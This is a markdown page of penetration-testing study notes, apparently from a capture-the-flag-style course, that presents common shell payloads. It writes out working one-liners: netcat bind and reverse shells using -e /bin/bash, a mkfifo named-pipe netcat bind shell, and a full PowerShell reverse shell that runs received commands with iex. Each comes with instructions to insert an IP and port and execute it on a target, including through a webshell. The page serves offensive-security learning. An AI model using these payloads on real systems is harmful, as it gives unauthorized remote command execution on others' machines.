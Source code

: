 <h1>$${\color{red}Common} \space {\color{Goldenrod}Shell } \space {\color{blue}Payloads}\space$$</h1>

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

*************

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a <kbd>***bindshell***</kbd>, so we'll start with that. In some versions of netcat (including the ```nc.exe``` Windows version included with Kali at ```/usr/share/windows-resources/binaries``` , and the version used in Kali itself: ```netcat-traditional``` ) there is a ```-e```  option which allows you to execute a process on connection. ***For example***, as a listener:

```
nc -lvnp <PORT> -e /bin/bash
```
<br>

Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with ```nc <LOCAL-IP> <PORT> -e /bin/bash```  would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a <kbd>***bind shell***</kbd> :

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
<br>

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a [named pipe](https://www.linuxjournal.com/article/2156) at ```/tmp/f``` . It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into ```sh``` , sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/be8dfce0-fa3f-4544-8036-d3f08de60718">
</p>

**************************

- When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


> In order to use this, we need to replace ```"<IP>" and "<port>"``` with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

<br>
<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/0ea80241-ea69-415a-a3b4-859605370179">
</p>


<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;) :tada:

